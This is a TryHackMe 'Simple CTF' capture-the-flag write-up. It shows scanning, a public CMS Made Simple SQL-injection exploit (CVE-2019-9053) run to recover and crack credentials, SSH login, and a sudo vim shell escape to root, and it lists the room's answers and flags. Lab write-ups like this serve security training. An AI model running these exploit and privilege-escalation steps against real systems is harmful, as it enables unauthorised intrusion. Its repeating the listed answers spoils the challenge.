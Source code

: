 ## Simple CTF - TryHackMe Writeup

[Room Link](https://tryhackme.com/room/easyctf)

**Deploy the machine and attempt the questions!**

**HINT 1**: `An issue was discovered in CMS Made Simple 2.2.8. It is possible with the News module, through a crafted URL, to achieve unauthenticated blind time-based SQL injection via the m1_idlist parameter.`

**HINT 2**: `You can use /usr/share/seclists/Passwords/Common-Credentials/best110.txt to crack the pass`

**IP: 10.10.105.220**

---

## 📌 General Information

**Room Difficulty**: Easy <br>

**Room Type**: Linux Privilege Escalation, Password Cracking <br>

**Tools Used**: Nmap, Gobuster, John The Ripper

**Author**: <br>

[<img align='center' src="https://github.com/mauzware/mauzware/blob/main/LOGO%20CUT.png"/>](https://github.com/mauzware)

[TryHackMe Profile](https://tryhackme.com/p/mauzinho) <br>
[GitHub Profile](https://github.com/mauzware)

---

## 🔍 Enumeration

- Starting with Nmap and Gobuster.
  ```
  nmap -A -p- 10.10.105.220
  
  open ports: 21, 80, 2222
  21 -> vsftpd 3.0.3
  80 -> Apache httpd 2.4.18 ((Ubuntu))
  2222 -> OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)

  gobuster dir -u http://10.10.105.220 -w=/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 64 --no-error -z -x php,asp,html,txt,zip
  /robots.txt 
  ```
  
- When I visited `robots.txt` I found `mike` which could be usefull credential. Now moving to exploitation

---

## ⚙️ Exploitation

- So for exploits, I found it with `searchsploit` but you can also download it from Exploits DB with this [link](https://www.exploit-db.com/exploits/46635)

  ```
  searchsploit cms made simple
  searchsploit -m 46635
  ```
  
- I moved to exploit to desired directory and changed it's name to `cmsexploit.py`, now let's run it. Hint told me to use `/usr/share/seclists/Passwords/Common-Credentials/best110.txt` as wordlist.

  ```
  python cmsexploit.py -u http://10.10.105.220/simple/ --crack -w /usr/share/seclists/Passwords/Common-Credentials/best110.txt
  ```
  
- Nice! It found credentials `mitch` and `0c01f4468bd75d7a84c7eb73846e8d96`. Crack the hash and use those credential to connect with SSH. Password is `secret`.

  ```
  john --wordlist=/usr/share/seclists/Passwords/Common-Credentials/best110.txt hash.txt
  ```

- Connect with SSH on port 2222: `ssh mithc@10.10.105.220 -p 2222` ; password is `secret`.

---

## 🧍 User Privilege Escalation

- Finding user flag is simple. `G00d j0b, keep up!`

---

## 👑 Root Privilege Escalation

- For root flags, I always look for writable files, SUID and SUDO privileges first. Writable files and SUID weren't helpfull but SUDO was!

  ```
  sudo -l 
  /usr/bin/vim
  ```
  
- So, for getting root with `vim` there's few different options, all 3 of these will work. After getting root, just read the flag.

  ```
  sudo vim -c ':!/bin/sh'
  sudo vim -c '!sh'
  sudo /usr/bin/vim
  
  cat /root/root.txt
  W3ll d0n3. You made it!
  ```

---

## 🏁 Flags

- **How many services are running under port 1000?**: `2`
- **What is running on the higher port?**: `ssh`
- **What's the CVE you're using against the application?**: `CVE-2019-9053`
- **To what kind of vulnerability is the application vulnerable?**: `sqli`
- **What's the password?**: `secret`
- **Where can you login with the details obtained?**: `ssh`
- **User Flag**: `G00d j0b, keep up!`
- **Is there any other user in the home directory? What's its name?**: `sunbath`
- **What can you leverage to spawn a privileged shell?**: `vim`
- **Root Flag**: `W3ll d0n3. You made it!`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Nothing special, just sharpening my skills tho.`

- What did I learn?
  `New CVE and new exploit.`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
